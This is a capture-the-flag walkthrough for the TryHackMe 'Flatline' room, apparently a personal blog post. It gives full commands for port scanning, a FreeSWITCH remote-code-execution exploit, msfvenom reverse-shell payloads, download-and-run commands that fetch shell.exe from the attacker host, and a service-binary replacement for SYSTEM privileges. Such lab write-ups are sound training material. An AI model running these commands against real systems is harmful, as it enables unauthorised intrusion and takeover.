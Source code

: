 ```yaml
---

title: Walkthrough - Flatline
published: true
---
```


Tags: Security, RCE, Broken Permissions.
Description: How low are your morals?
Difficulty: Easy
URL: [https://tryhackme.com/room/flatline](https://tryhackme.com/room/flatline)

* * *

## Notes

- `nmap -Pn -sS -T4 -p- 10.10.71.193 -vvv`

```
PORT     STATE SERVICE       REASON                                                                                          
3389/tcp open  ms-wbt-server syn-ack ttl                                                
8021/tcp open  ftp-proxy     syn-ack ttl 125 
```

- `sudo nmap -sC -sV -Pn -sS -O 10.10.71.193 -p3389,8021`

```
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-25T13:37:09+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2022-08-24T13:29:23
|_Not valid after:  2023-02-23T13:29:23
|_ssl-date: 2022-08-25T13:37:11+00:00; 0s from scanner time.
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```

searching exploitdb we find a freeswitch exploit that works.

- `python3 freeswitch-exploit.py 10.10.71.193 systeminfo`

Now we can create a payload for the target system `msfvenom -p windows/shell_reverse_tcp LHOST=10.2.127.225 LPORT=6666 -f exe > shell.exe`

- start simple webserver `python3 -m http.server 80` and start listener `rlwrap nc -nvlp 6666`
- upload and start shell `python3 freeswitch-exploit.py 10.10.71.193 "powershell.exe Invoke-WebRequest -Uri http://10.2.127.225/shell.exe -OutFile ./shell.exe && .\shell.exe"`

![0xskar](/assets/flatline01.png)

* * * 

## What is the content of user.txt?

![0xskar](/assets/flatline02.png)

* * * 

## What is the content of root.txt?

We find OpenClinic GA on the system `searchsploit -m windows/local/50448.txt`. This escalation works by letting a low privilege account being able to rename lysqld or tomcat8.exe files located in bin folders and replacing with a malicious file that can connect back to due the service running as local system. we will try replacing the exe here `\mariadb\bin\mysqld.exe`. 

1. Generate malicious .exe on attacking machine
    `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.102 LPORT=4242 -f exe > /var/www/html/mysqld_evil.exe`

2. Setup listener and ensure apache is running on attacking machine
    `nc -lvp 4242`
    

3. Download malicious .exe on victim machine
    type on cmd: `curl http://192.168.1.102/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"`

4. Overwrite file and copy malicious .exe.
    `Renename C:\projects\openclinic\mariadb\bin\mysqld.exe > mysqld.bak`
    `Rename downloaded 'mysqld_evil.exe' file in mysqld.exe`

5. Restart service

6. Reverse Shell on attacking machine opens

![0xskar](/assets/flatline03.png)

* * * 

